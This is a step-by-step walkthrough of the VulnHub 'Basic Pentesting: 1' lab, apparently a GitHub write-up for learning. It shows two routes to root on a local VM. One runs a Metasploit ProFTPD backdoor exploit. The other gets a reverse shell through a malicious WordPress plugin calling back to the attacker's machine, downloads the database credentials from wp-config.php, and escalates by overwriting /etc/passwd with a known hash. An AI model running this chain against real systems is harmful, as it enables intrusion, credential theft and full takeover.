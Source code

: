# Basic Pentesting: 1
[VulnHub link](https://www.vulnhub.com/entry/basic-pentesting-1,216/)  
By Josiah Pierce  

* After the victim VM has been booted up, we are greeted with a login page that requests for the password of user marlinspike. We attempt a few common passwords such as `password` and `admin`, but we do not manage to login expectedly.
* The IP address of the victim VM can be found by clicking the icon with 2 arrows pointing up and down respectively on the top right-hand corner of the login page, which is `10.0.2.4`. Thus, no nmap scans are needed.
![](/screenshots/Login.jpg)
* Alternatively, you can log in through a Guest Session, and then run `ifconfig` from the Terminal to obtain the victim's IP address.
* From our Kali VM, run `nmap -p- -A 10.0.2.4`, which means to scan all ports from 1 to 65535 (0 is excluded), and to enable OS detection, version detection (for the available services), script scanning, and traceroute:
![](/screenshots/scanAllPortsandServiceVersions.jpg)
* There are 3 ports that are open: 21 (ftp), 22 (ssh) and 80 (http). This means that we can gain entry to the victim VM either via the FTP, SSH or HTTP service. The respective versions of these services are also listed.
* We will explore 2 methods from here onwards to gain root access, through either the FTP or HTTP service. The former takes lesser time (i.e. simpler).

# Method 1 (FTP service) #
* Searching `ProFTPD 1.3.3c` (which is the version of the FTP service) reveals that it has a [malicious backdoor that was added to the ProFTPD download archive](https://www.rapid7.com/db/modules/exploit/unix/ftp/proftpd_133c_backdoor).
* Run `msfconsole`, then `search proFTPD` to find out if there is an available module that exploits the backdoor mentioned above:
![](/screenshots/msfconsoleProFTPD.jpg)
* Indeed there is such an available module, and we see that it is ranked as excellent as well.
* Run `use exploit/unix/ftp/proftpd_133c_backdoor` for us to use the module, and then `show options` to see that there are 2 parameters in the module: RHOST (value: empty) and RPORT (value: 21).
* Set RHOST to be our victim's IP address: `set RHOST 10.0.2.4`. RPORT 21 is correct since we are targeting the FTP service, hence it will not be modified.
* Run `show options` again to confirm that we have the correct parameters set:
![](/screenshots/backdoorOptions.jpg)
* Run `exploit`:
![](/screenshots/exploitRootFTP.jpg)
* And we are done! We have gained root access with a shell on the victim VM.

# Method 2 (HTTP service) #
* We will first have a go with the HTTP service, thus we visit `10.0.2.4` and find a web server running:
![](/screenshots/httpServicePage.jpg)
* Note: Viewing the page source reveals no additional information.
* Note: Some common files and pages which we tried such as /robots.txt, /admin, /login.php are invalid pages as well.
* Though the page said that "no content has been added yet", we will still run our tools to verify if this is really the case: run `dirbuster`, which tries to find hidden files and directories using a user-supplied wordlist.
* Put `http://10.0.2.4` into the `Target URL` of dirbuster. We will use a wordlist that is provided by dirbuster, which can be found in `/usr/share/dirbuster/wordlists`. We will use `directory-list-lowercase-2.3-small.txt` for a start. We can stick with the existing 10 threads.
![](/screenshots/dirbusterSettings.jpg)
* While waiting for dirbuster to do its job (it will take a minute or two), we will look at other areas, such as verifying that it is indeed the ssh service which is running at port 22: `ssh marlinspike@10.0.2.4 -p 22`. Since there is a response that requests for the password, we can confirm that it is indeed the case.
* Heading back to dirbuster, we find that there is a directory called `secret` that contains `wp-admin`, `wp-content`, `wp-includes`, etc.
![](/screenshots/dirbusterResults.jpg)
* With `10.0.2.4/secret`, we expect a WordPress page to load, which happens (page is titled "My secret blog"). Note: the page loads rather slowly (notice that there is the message "Looking up vtsec at the bottom bar of the browser") and the page contents are not loaded properly, i.e. positioning of the texts, icons are off, as if there was no CSS.
* Placing our mouse over some of the links, we find that the hyperlink domain is actually `vtcsec`. A very likely reason that the page was loading slowly is that the browser was trying to resolve vtcsec, but was unable to do so eventually.
* Next, we will add an entry (`10.0.2.4 vtcsec`) into the Hosts file in Kali: open (`vim /etc/hosts`) and edit the file, before saving it. What this means is that the IP address of vtcsec is determined by us to be 10.0.2.4, and any  accesses to vtcsec will access 10.0.2.4, instead of trying to find out its IP address from a DNS server.
![](/screenshots/hostsFileEntries.jpg)
* Note: We could also add other mappings such as `10.0.2.4 vtcsec.com`, just in case there might be cases where there is a `.com` domain extension for one of the hyperlinks in the WordPress page, though we have yet to see one so far.
* Reload `10.0.2.4/secret` and volia, we see that the page has been properly loaded. This is because the CSS was trying to pull from a domain that did not exist until we added the entries to the Hosts file.
* There is no interesting content on the site's post, so we head to the Login page of the WordPress site (/wp-login.php) and attempt to login using the username `admin` and a random password. Using a random password allows us to check if an account with the username admin exists. The error message from an invalid login, that "the password you entered for the username admin is incorrect" confirms so. This is a form of information leakage in my opinion on WordPress' part.
* Next, we attempt a quick guess with the password `admin` for the admin account, and access is granted. No kind of bruteforcing is required here.
* Head to the `Plugins` page and install `malicious-wordpress-plugin` by `wetw0rk` [(GitHub link)](https://github.com/wetw0rk/malicious-wordpress-plugin). Once it is installed on the WordPress site, a reverse shell is granted.
* Before beginning the installation of the plugin, we will first start up our listener by cloning and opening the Git repository from our Kali terminal, and execute `python wordpwn.py 10.0.2.15 4000 Y`. The format for the command is `wordpwn.py [LHOST] [LPORT] [HANDLER]`. The IP address is that of the Kali machine.
* The payload is then generated in the `malicious.zip` file. Once the reverse TCP handler (listener) is started on the Kali terminal, we can upload the payload as a plugin (`GotEm`) to the WordPress site, and activate it.
* We will next head to the plugins editor, select the GotEm plugin to find out the path to the files which are within the plugin, which are `malicious/QwertyRocks.php` and `malicious/wetw0rk_maybe.php`. There are only documentation codes (commented) in the former, and in the latter, we find that there is a whole long string within a base64_decode and eval function.
* Next, we head to `vtcsec/secret/wp-content/plugins/malicous/wetw0rk_maybe.php` on our browser to connect to the reverse shell.
* Heading back to our Kali terminal, we see that a meterpreter session has been opened, and enter `shell`. Executing `whoami`, we see that we are `www-data`. We have now successfully logged into the victim VM. Exit from the shell after this by running `exit`.
* From the reverse shell which we have gotten, we can go up 3 levels of directory to reach one that contains a number of `wp-` PHP files, and specifically we want to download the wp-config.php to the root folder (i.e. back to our Kali machine): `download wp-config.php`.
* Open up the config file from our Kali machine with a text editor, and we find that we have the MySQL database username `root` and password `arootmysqlpass`.
* Side-note: We can probably do a **privilege escalation** from here after logging in to the database, but this is not the focus here at this moment.
* Next, we will use `unix-privesc-check` from `pentestmonkey` [(GitHub link)](https://github.com/pentestmonkey/unix-privesc-check) on the victim VM. This tool is a "shell script to check for simple privilege escalation vectors on Unix systems". Clone the repository to the Kali VM, and run `git checkout 1_x`. We are using this branch's single shell script instead of the method from the master branch.
* On our meterpreter session, cd to `/var/www/html`, which hosts the WordPress page. We will now upload the unix-privesc-check tool to the victim VM: `upload ../unix-privesc-check/unix-privesc-check`.
* Give executable permissions to the script via chmod after running `shell` (interesting, if we were to run `chmod +x unix-privesc-check` before running `shell`, the file ends up having no permissions at all), and then run `./unix-privesc-check standard > output.txt`. Wait for awhile for our results to be redirected to output.txt, and we exit from shell. Next, run `download output.txt`.
* Alternatively, we can choose to have the result's output to the terminal (and not to redirect the output of the script to an external file), though I find this to be somewhat messy.
* As we see from the instructions at the top of the output file, if there is no string "WARNING" in the file, the script did not find any problems. Our first result from finding WARNING is that `/etc/passwd` can be written by anyone (world write).
![](/screenshots/writeablePasswdFile.jpg)
* Run `download /etc/passwd` from our meterpreter session.
* The first line of /etc/passwd is `root:x:0:0:root:/root:/bin/bash`. We see an `x`, which is a holding place for root's "encrypted password". Traditionally, this field actually stored the user's encrypted password. Modern Unix systems store encrypted passwords in a separate file (the shadow password file) that can be accessed only by privileged users.
* However, we can overwrite the `x` with a hash of a known password.
* Note: Removing the x might seem like an obvious choice to make the root account accessible without any password. However, it does not work here (*find out why!*), and we will still be prompted for a password when we run `su` as shown below.
* Run `openssl passwd -1 pass` (`pass` is our simple password here). `openssl passwd` computes the hash of our password typed at run-time in this case, e.g. `$1$H6IJSTRO$Fcs6RA7D6/wnJM6dK.GSV1` for `pass`. `-1` means the use of MD5 based BSD password algorithm 1.
* Alternatively, if you want to run the openssl command without letting your password be shown in plaintext on the terminal, as well as to confirm your password, run the same command without the last parameter being your password.
* Note: The hash of the password generated by openssl will differ with each run of the command.
* Replace the `x` with our hash value, save the file, and upload the file back to the victim VM: `upload passwd /etc/passwd`.
* Run `shell`, then `su`, but there is an error stating that su must be run from a terminal.
* Execute `python -c 'import pty; pty.spawn("/bin/bash")'` (or `/bin/sh`) to spawn a proper shell, then run `su`. Note: When called without arguments, su defaults to running an interactive shell as `root`.
* Enter our password created above (e.g. `pass`), and we have got root access!
